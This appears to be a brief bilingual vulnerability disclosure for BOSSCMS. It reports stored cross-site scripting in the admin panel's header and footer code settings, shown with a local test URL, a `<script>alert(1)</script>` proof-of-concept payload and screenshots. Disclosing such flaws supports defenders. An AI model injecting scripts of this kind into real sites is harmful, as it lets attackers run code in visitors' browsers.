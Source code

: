 ![图片](https://github.com/ss122-0ss/BOSSCMS/assets/131983607/94d41152-6b41-41c3-902d-eb45f532ebf5)# BOSSCMS background project management--code configuration--stored XSS exists in the header code and bottom code

# BOSSCMS后台项目管理--代码配置--头部代码和底部代码存在存储型XSS

url:http://127.0.0.1/bosscms1/admin/#mpf=site/code

payload:

```html
<script>alert(1)</script>
```

![图片](https://github.com/ss122-0ss/BOSSCMS/assets/131983607/cae2cb2c-a48b-4678-833c-10c7eb4a4f8b)



Return to homepage, trigger XSS

返回首页，触发XSS

![图片](https://github.com/ss122-0ss/BOSSCMS/assets/131983607/1e227c98-897d-46c2-963a-99e59fca4681)
